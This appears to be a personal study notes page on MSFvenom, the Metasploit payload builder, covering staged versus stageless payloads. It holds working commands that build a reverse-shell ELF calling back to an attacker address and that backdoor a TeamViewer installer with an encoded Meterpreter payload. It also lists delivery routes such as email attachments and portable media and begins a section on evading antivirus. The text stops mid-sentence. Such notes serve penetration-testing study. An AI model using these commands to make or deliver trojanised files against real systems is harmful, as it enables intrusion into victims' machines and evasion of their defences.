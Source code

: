 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
MSFvenom is a tool within the [[Metasploit]] framework for creating, encrypting & encoding payloads. The delivery of these payloads is up to the attacker, this tool only aids to creates them. This is a really useful tool if we don't have direct access to the target system but we need a payload that we can deliver another way (eg. social engineering).

### Staged vs Stageless Payloads
A *staged* payload will only setup a 'small stage' that will then call back to the attack box to download the rest of the payload, and execute it. These take up space in memory so there is less space for the actual payload. These are useful when an exploit scenario has little space for a large payload to be uploaded but instead we could upload a stage that then downloads a larger payload into a more suitable place / into larger memory.

A *stageless* payload does not have a stage. The entire payload is sent over the network connection at once. This could benefit us in environments with little bandwidth or latency where a staged payload may not be stable enough. Sometimes these can be better for evasion too as they cause less network traffic, which could be helpful for a social engineering attack.

The description or the format of the name of the payload can identify if it is staged or stageless.
```bash
# Staged (indicated by the /'s ) we can see the different stages (eg. {0} create a shell, {1} then create a reverse tcp)
windows/meterpreter/reverse_tcp
linux/x86/shell/reverse_tcp

# Stageless
windows/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
```

![[Metasploit#Installation]]

## Documentation
**Cheatsheet:** 
**Website:** 
## Usage

### List all payloads
```sh
msfvenon -l payloads
# Payloads will commonly be named with their OS first eg. windows/dllinject/bind_tcp
```

### Building a stageless payload
```bash
msfvenom -p [payload_path] [options] -f [binary_format] > [file_name].[binary_format]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.112 LPORT=443 -f elf > createbackup.elf
```
We could then deliver this to our target system, common ways include:
- Email with file attached
- Download link on a website
- Combined with a metasploit exploit (but would likely need us to be on the internal network)
- Via portable media during an on-site attack
> We also need to make sure it gets executed once on the system.

![[Metasploit#Scanning a payload for possible detection]]

### Building a backdoor'ed executable
You can build a payload into an existing executable by using the `-k` flag. This will embed the payload into the executable and when run, will create a separate thread from the main application that is running our backdoor.
```sh
# This command embeds the meterpreter stageless payload into the provided TeamViewer_Setup.exe.
# It also encodes the payload using the shikata_ga_nai algo with 5 iterations.
msfvenom window/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -i 5 -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe
```
> The only issue with this is that if the application is launched via a CLI, a second window running the payload will open too.

## Evading AV detection
There are many protection mechanisms eg. [[Intrusion Detection]] and AVs. These systems are getting sophisticated and are capable of detecting most *default* payloads. Some mechanisms for evading them are still present as most AVs heavily rely on signature detection.

### Multi-layered archiving
Using a tool like [RAR utility](https://www.rarlab.com/download.htm) (WinRAR for linux) we can double archive a payload, making it much harder to get the actual signature of the contents.

### Using Encoding
Although t